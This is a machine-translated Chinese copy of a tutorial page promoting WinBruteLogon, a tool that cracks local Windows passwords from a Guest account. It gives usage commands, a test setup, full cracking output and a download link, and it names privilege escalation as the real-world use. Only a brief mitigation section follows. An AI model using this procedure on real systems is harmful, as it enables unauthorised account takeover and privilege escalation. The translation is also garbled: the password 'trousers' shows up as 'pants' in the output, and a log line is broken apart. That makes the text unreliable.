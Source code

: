 # 暴力登录:破解任何微软视窗用户的密码，没有任何特权

> 原文：<https://kalilinuxtutorials.com/win-brute-logon/>

[![](img//43a287300175f4709fea06825e33207b.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjHL9VPAU-Qhra4H61NiE6ZWP_3WV_OFgEX6-IgK2_gY7AD7eMCgSkV0EYnDy8mKDOu6RDLe_VtcowtIslUtyZAmNIEaycs8AE9mHmfaGXYkvRElwAJX4QPLvh-E3FlIkTyDhkW4wi39nnGRc2YLRepsGdCzyVXbRDdAzU0WnJ-WQBbYUKzOJMaKP50/s728/hack-windows-7-8-10-admin-account-password-with-windows-magnifier.1280x600.png)

我认为，与其说 PoC 是一个漏洞，不如说它是微软 Windows 认证机制中的一个严重缺陷。

最大的问题是缺少执行此类操作所需的特权。

事实上，从 Guest 帐户(Microsoft Windows 上最受限制的帐户)，您可以破解任何可用的本地用户的密码。

使用命令`**net user**`找出存在哪些用户

此概念验证使用多线程来加快进程，并支持 32 位和 64 位。

## 使用

### Wordlist 文件

`**WinBruteLogon.exe -u <username> -w <wordlist_file>**`

### 欢迎使用 Wordlist

`**type <wordlist_file> | WinBruteLogon.exe -u <username> -**`

# poco 测试场景 _ 使用来宾帐户)

在 Windows 10 上测试

安装和配置全新更新的 Windows 10 虚拟机或物理机。

在我的例子中，完整的 Windows 版本是:`**1909 (OS Build 18363.778)**`

以管理员身份登录，让我们创建两个不同的帐户:一个管理员和一个普通用户。两个用户都是本地用户。

/!\重要通知:我在演示中使用了来宾帐户，但此概念验证不仅限于来宾帐户，它可以在任何帐户/组(来宾用户/普通用户/管理员用户等)中使用

## 创建新的管理员用户

`**net user darkcodersc /add**`

`**net user darkcodersc trousers**`(裤子是密码)

`**net localgroup administrators darkcodersc /add**`

## 创建普通用户

`**net user HackMe /add**`

`**net user HackMe ozlq6qwm**` (ozlq6qwm 为密码)

## 创建新的客人账户

`**net user GuestUser /add**`

`**net localgroup users GuestUser /delete**`

`**net localgroup guests GuestUser /add**`

## 获取单词表

在我的例子中，`**trousers**`和`**ozlq6qwm**`都在 SecList 中:https://github . com/danielmiessler/sec lists/blob/master/Passwords/Common-Credentials/10k-most-Common . txt

## 开始攻击

从管理员帐户注销或重新启动您的机器并登录到来宾帐户。

将 PoC 可执行文件放在您作为来宾用户可以访问的任何地方。

用法:`**WinBruteLogon.exe -v -u <username> -w <wordlist_file>**`

`**-v**`是可选的，它设计了详细模式。

默认情况下，域名是由`**%USERDOMAIN%**` env var 指定的值。您可以使用选项`**-d**`指定自定义名称

### 破解第一用户:`**darkcodersc**`(管理员)

提示(客人)>`**WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt**`

等待几秒钟，查看以下结果:

**[..]在内存中加载 10k-most-common.txt 文件…
【完成】10002 密码加载成功。
【信息】2 个内核可用
[..]创建 2 个线程…
[信息]用 id=2260，handle=364 创建的新“TWorker”线程
[信息]用 id=3712，handle=532 创建的新“TWorker”线程
[DONE]完成。
[ OK ]用户名=[darkcodersc]和域=[DESKTOP-0885FP1]的密码找到=[pants]
[..]完成并关闭工作线程…
[信息]“工作线程”(id=2260，handle=364)线程成功终止。
[信息]“工作器”(id=3712，handle=532)线程成功终止。
【完成】完成。
【信息】耗时:00:00:06**

### 破解第二用户:`**HackMe**`(普通用户)

提示(客人)>`**WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt**`

等待几秒钟，查看以下结果:

**[..]在内存中加载 10k-most-common.txt 文件…
【完成】10002 密码加载成功。
【信息】2 个内核可用
[..]创建 2 个线程…
[信息]用 id=5748，handle=336
创建新的“TWorker”线程，用 id=4948，handle=140
[DONE]完成。
[ OK ]用户名=[HackMe]和域=[DESKTOP-0885FP1]的密码找到= [ozlq6qwm]
[..]完成并关闭工作线程…
[信息]“工作线程”(id=5748，handle=336)线程成功终止。
[信息]“工作器”(id=4948，handle=140)线程成功终止。
【完成】完成。
【信息】耗时:00:00:06**

# 真实世界场景

如果您获得了低特权用户的访问权限，您就可以破解更高特权用户的密码并提升您的特权。

# 缓解(一般)

*   禁用来宾帐户(如果有)。
*   申请白名单。
*   遵循指南创建并保持强密码。将此应用于所有用户。

## 实施安全锁定策略(默认情况下不存在)

打开`**secpol.msc**`，然后转到`**Account Policies**` > `**Account Lockout Policy**`，用期望值(1 到 999)编辑值`**Account lockout threshold**`。

值表示锁定前可能的尝试次数。

/!\锁定策略不适用于管理员帐户。此时，最好的保护管理员帐户(如果启用)是设置一个非常复杂的密码。

[**Download**](https://github.com/DarkCoderSc/win-brute-logon)
